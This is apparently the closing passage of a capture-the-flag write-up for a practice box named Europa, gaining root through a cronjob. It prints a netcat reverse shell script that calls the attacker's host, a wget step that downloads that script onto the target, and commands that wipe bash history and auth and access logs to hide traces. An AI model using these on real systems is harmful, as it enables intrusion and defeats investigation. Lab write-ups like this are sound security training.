 If we create reverse shell script, it will run as root and we will be the big bad boss of the box.

* `cd ../cmd`
* `ls -la`

<br>
![A34-cmd](https://i.imgur.com/svKtWiT.png)
<br>

Since our shell is limited, and my go-to method of getting a TTY using python is off the table (no python on this box) - we should write our script on our local machine and then download it using `wget` like we did before.

Due to the use of certain characters, I found it easiest to write this script in a full text editor like vim or gedit.

```
#!/bin/sh
rm /tmp/fa; mkfifo /tmp/fa; cat /tmp/fa|/bin/sh -i 2>&1|nc local.machine.ip.addr ROOTPORT > /tmp/fa
```

and save it as `logcleared.sh`


Then, using the same python HTTP Server, use `wget` on the europa-user shell to download our custom-made `logcleared.sh`. Before doing this, make sure your listener is active. You wouldn't want to miss the cronjob!

On Europa, run

* `wget http://local.machine.ip.addr:hostport/logcleared.sh`
* `chmod +x logcleared.sh`

Now, we wait. If it takes more than a few minutes, you've done something wrong. Check your IPs, ports, etc.

<br>
![A36-rootshell](https://i.imgur.com/oaSJD3A.png)
<br>

I just love to see that `#`

## 5. Root Flag and Cleanup

We've done it.
Grab the root flag with...

* `cat /root/root.txt`

...and if you want, you can be done here. I'm going to clean up after myself and remove a few traces of my presence here. NOTE: I am not doing this in the stealthiest way possible. I'm doing this to form good habits, but do not see this as an example of a phantom-like disappearance.

* `cd /tmp; rm f fa script.sh`
* `rm /var/www/cmd/logcleared.sh`
* `echo '' > /home/john/.bash_history`
* `echo '' > /var/log/auth.log `
* `echo '' > /var/www/admin/logs/access.log`
